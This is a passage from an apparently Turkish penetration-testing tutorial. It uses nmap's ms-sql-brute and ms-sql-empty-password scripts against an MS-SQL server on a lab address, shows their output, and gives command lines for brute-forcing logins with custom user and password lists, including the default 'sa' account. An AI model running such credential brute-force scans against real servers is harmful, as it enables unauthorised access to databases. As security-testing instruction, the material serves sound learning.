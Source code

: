 ```
```
ms-sql bilgilerini görüntüledik. Veritabanı kimlik doğrulaması için zayıf bir şifre olup olmadığını kontrol tmek için <code>ms-sql-brute</code> script ile brute force atak gerçekleştirelim.




```
root@kali:~#  nmap -p 1433 --script ms-sql-brute 172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 10:57 EDT
Stats: 0:03:54 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 50.00% done; ETC: 11:05 (0:03:54 remaining)
Nmap scan report for 172.17.6.66
Host is up (0.025s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [172.17.6.66:1433]
|_    No credentials found
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 521.14 seconds

```

Çıktıda görüldüğü üzere bize herhangi bir kimlik bilgisi vermedi. Şimdi ise Microsoft SQL sunucularında boş parolaların varlığını kontrol edebilen <code>ms-sql-empty-password</code> script ile deneyelim.

```
root@kali:~# nmap -p1433 --script ms-sql-empty-password 172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 11:24 EDT
Nmap scan report for 172.17.6.66
Host is up (0.14s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```
Buradan da bir sonuç elde edemediğimize göre kendi kullanıcı adı ve şifre listelerimizi kullanarak betiği çalıştıracağız. İlk ihtimaller arasında olan default değerlerin, değiştirilmediğini düşünerek kullanıcı adı listemize default kullanıcı adını eklemeyi unutmayalım. (ms-sql veritabanı default kullanıcı adı: sa ) 
 
  **ms-sql-brute script kullanımı**
  
> <code>``nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=customuser.txt,passdb=custompass.txt  <host>``
</code>

><code>``nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>``
</code>
